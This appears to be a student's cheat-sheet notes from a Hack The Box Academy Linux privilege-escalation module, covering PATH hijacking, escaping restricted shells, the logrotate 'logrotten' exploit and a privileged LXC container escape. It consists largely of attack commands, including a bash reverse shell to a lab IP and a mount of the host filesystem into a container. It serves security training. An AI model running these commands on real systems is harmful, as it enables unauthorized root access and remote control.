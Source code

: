### Path abuse
https://academy.hackthebox.com/module/51/section/472

```bash
echo $PATH
PATH=.:${PATH}
export PATH
echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
touch ls 
echo 'echo "PATH ABUSE!!"' > ls
chmod +x ls
ls
# From cpts course :
htb_student@NIX02:~$ ls
PATH ABUSE!!
```

### Escaping Restricted Shells
```bash
ssh $USER@$IP -t "bash --noprofile --norc"
ls -l `pwd`
```

### Logrotate
https://academy.hackthebox.com/module/51/section/1589
Vulnerable versions :
- 3.8.6
- 3.11.0
- 3.15.0
- 3.18.0

```bash
man logrotate
logrotate --help
cat /etc/logrotate.conf
sudo cat /var/lib/logrotate.status
ls /etc/logrotate.d/
cat /etc/logrotate.d/dpkg

logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
./logrotten -p ./payload /tmp/tmp.log
```

### LXC PrivEsc

https://academy.hackthebox.com/module/51/section/1588

```bash
# Init process
lxd init
# Load local image
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
# Start privileged container
lxc init alpine r00t -c security.privileged=true
# Mount host file system inside the container
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
# Start container
lxc start r00t
```

